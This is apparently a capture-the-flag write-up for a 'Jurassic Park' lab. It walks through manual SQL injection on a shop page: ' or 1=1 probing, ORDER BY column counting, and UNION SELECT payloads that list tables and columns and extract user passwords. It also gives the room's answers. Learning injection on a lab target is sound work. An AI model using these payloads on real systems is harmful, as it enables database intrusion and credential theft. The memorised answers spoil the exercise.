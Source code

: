 <h1>Jurrasic Park</h1>
<h3>219-day-streak</h3>

<br>

![image](https://github.com/user-attachments/assets/b717ffa4-cb1c-4daa-8ad7-b1223facc961)

<br>

![image](https://github.com/user-attachments/assets/59e91b57-b389-42a5-be27-c74ce6b0cdf4)

<br>

<h2>Task 1. Jurassic Park CTF</h2>

![image](https://github.com/user-attachments/assets/1a9cd97d-0cc1-4b51-95a1-9504c9a86493)

<br>

<p>This medium-hard task will require you to enumerate the web application, get credentials to the server and find four flags hidden around the file system. Oh, Dennis Nedry has helped us to secure the app too.<br>

You'll also want to turn up your device's volume (firefox is recommended). So, deploy the VM and get hacking.<br>

Please connect to our network before deploying the machine.</p>

<br>


<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 1.1. <em>What is the name of the SQL database serving the shop information?</em><br><a id='1.1'></a>
>> <code><strong>park</strong></code>

<br>

> 1.2. <em>How many columns does the table have?</em><br><a id='1.2'></a>
>> <code><strong>5</strong></code>

<br>

> 1.3. <em>What is the system version?</em><br><a id='1.3'></a>
>> <code><strong>5</strong></code>

<br>

![image](https://github.com/user-attachments/assets/cb6a330a-2a15-4fea-843b-d97535e0037e)

<br>

![image](https://github.com/user-attachments/assets/a8d4c1a8-7956-4507-8048-12cf4b9b47a9)


<br>

![image](https://github.com/user-attachments/assets/81ccef22-78fa-42f1-b504-e3e99f79a0aa)

<br>

![image](https://github.com/user-attachments/assets/1764a424-d928-4aad-9384-6dd91769012e)


<br>

<p>We have here an</p>

![image](https://github.com/user-attachments/assets/e334d7ce-26a2-4eca-9141-f1ea031600e7)

<br>

![image](https://github.com/user-attachments/assets/246732de-e61c-4e51-aabd-65f365846c04)

<br>

![image](https://github.com/user-attachments/assets/b8a10fb8-91be-4198-8a89-b0d294cec868)

<br>

<p>Dennis is mentinoned in <code>?id=5</code>.  Maybe it is a username?!</p>

<br>

![image](https://github.com/user-attachments/assets/8c346ec3-ce19-484a-9635-ee398e48dc4f)

<br>

<p>Let´s try <code>’ or 1=1</code>.</p>

<br>

![image](https://github.com/user-attachments/assets/0817fa73-100f-477a-a75b-39894433fb0f)

<br>

<p>Scrolling down ... </p>

<br>


![image](https://github.com/user-attachments/assets/a5cd1bf1-d168-46ca-afdb-6a515b64988f)

<br>

<p>So it is about <code>SQL Injection</code>!</p>

<br>

![image](https://github.com/user-attachments/assets/68828109-5c37-4ac9-86ea-12affc334438)


<br>

<p><code>' or 1=1 order by 1,2</code> did not work.<br>
<code>' or 1=1 order by 1,2,3</code> did not work.<br>
<code>' or 1=1 order by 1,2,3,4</code> did not work.<br>
<code>' or 1=1 order by 1,2,3,4,5</code> did not work.<br><br>
But guess what?  .... with <code>' or 1=1 ORDER BY 1,2,3,4,5,6</code> the output wass ...</p>

<br>


![image](https://github.com/user-attachments/assets/62412608-4a88-4c2e-8efd-37ef9247a743)

<br>

<p>So we can conclude that thre are <code>5</code> columns!  Leté try <code>UNION</code></p>

<br>

![image](https://github.com/user-attachments/assets/097118f6-9e37-45be-bca5-f53034b80bd6)

<br>


<p>Buy, Buy, Buy</p>

<br>

![image](https://github.com/user-attachments/assets/d3bfe821-a1a6-49f8-a417-88908768be4b)


<br>

![image](https://github.com/user-attachments/assets/a9df154f-133b-4596-b60d-222bd010ad61)

<br>

<pre><code>?id=5%20union%20select%201,group_concat(table_name),3,4,5%20from%20information_schema.tables</code></pre>

<br>

![image](https://github.com/user-attachments/assets/a8f44e9b-199a-4fd7-a26b-80c9d14451bf)

<br>

<pre><code>?id=5 union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema = database()</code></pre>

<br>

![image](https://github.com/user-attachments/assets/3d5d88a9-c949-4c3c-806d-5c51db1e747d)

<p>Let´s have some fun ...</p>


<pre><code>?id=5 union select 1,group_concat(table_name),2000000,1000,199 from information_schema.tables where table_schema = database()</code></pre>

<br>

![image](https://github.com/user-attachments/assets/46ca00f2-7542-48f6-9919-296ee6db8379)

<p>We can notice that there are <code>two tables</code>: <code>items</code> and <code>users</code></p>

<br>

<pre><code>?id=5 union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_schema = database() and table_name = "users"</code></pre>

<br>

![image](https://github.com/user-attachments/assets/4b3ca1be-e473-411d-8189-c2ea2d22111c)

<br>

<pre><code>?id=5%20union%20select%201,password,3,4,5%20from%20users</code></pre>

<br>

![image](https://github.com/user-attachments/assets/669a0148-a62f-48b6-a26d-84550fdcba17)

<br>
<br>
<br>


![image](https://github.com/user-attachments/assets/e7667ec7-a0c5-46c4-9856-dd9f70352bd4)

<br>


![image](https://github.com/user-attachments/assets/82dd10a7-e756-45a5-ac9f-342fadde1b3e)


<br>


![image](https://github.com/user-attachments/assets/5044d057-f05b-4d50-a87a-ebef6b452b37)

<br>


![image](https://github.com/user-attachments/assets/f0e9dd99-d447-4584-a839-46b3f4c44869)

<br>

![image](https://github.com/user-attachments/assets/cb110942-750b-44f7-bf5c-c310e85c0140)

<br>

![image](https://github.com/user-attachments/assets/64d497ac-7529-44bc-82e7-1f3d62a6ac16)

<br>

![image](https://github.com/user-attachments/assets/034d65da-6d2f-4617-af8d-b7ead1f4070d)

<br>

![image](https://github.com/user-attachments/assets/c1a61a07-6074-41c1-9b5c-78025bc16fed)

<br>








